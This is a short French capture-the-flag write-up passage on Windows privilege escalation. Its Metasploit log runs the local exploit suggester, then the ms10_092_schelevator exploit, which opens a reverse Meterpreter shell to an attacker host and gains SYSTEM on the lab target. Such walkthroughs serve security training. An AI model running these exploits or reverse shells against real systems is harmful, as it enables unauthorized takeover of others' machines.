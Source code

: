 ./pwnthebox
-----------

On peut difficilement faire plus simple qu'une recherche d'exploits existants pour le système et leur exécution. Ca tombe bien c'est ce qu'il faut faire sur ce CTF :  

```plain
msf post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.93 - Collecting local exploits for x64/windows...
[*] 10.10.10.93 - 15 exploit checks are being tried...
[+] 10.10.10.93 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[*] Post module execution completed

msf exploit(windows/local/ms10_092_schelevator) > exploit

[*] Started reverse TCP handler on 10.10.14.21:137 
[*] Preparing payload at C:\Windows\TEMP\behaKfkp.exe
[*] Creating task: ncYjGQ5UG1p
[*] SUCCESS: The scheduled task "ncYjGQ5UG1p" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\ncYjGQ5UG1p...
[*] Original CRC32: 0x15b66c52
[*] Final CRC32: 0x15b66c52
[*] Writing our modified content back...
[*] Validating task: ncYjGQ5UG1p
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] ncYjGQ5UG1p                              7/1/2018 5:30:00 PM    Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "ncYjGQ5UG1p" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "ncYjGQ5UG1p" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] SUCCESS: Attempted to run the scheduled task "ncYjGQ5UG1p".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Sending stage (179779 bytes) to 10.10.10.93
[*] SUCCESS: The scheduled task "ncYjGQ5UG1p" was successfully deleted.
[*] SCHELEVATOR
[*] Meterpreter session 5 opened (10.10.14.21:137 -> 10.10.10.93:49164) at 2018-06-30 16:30:13 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
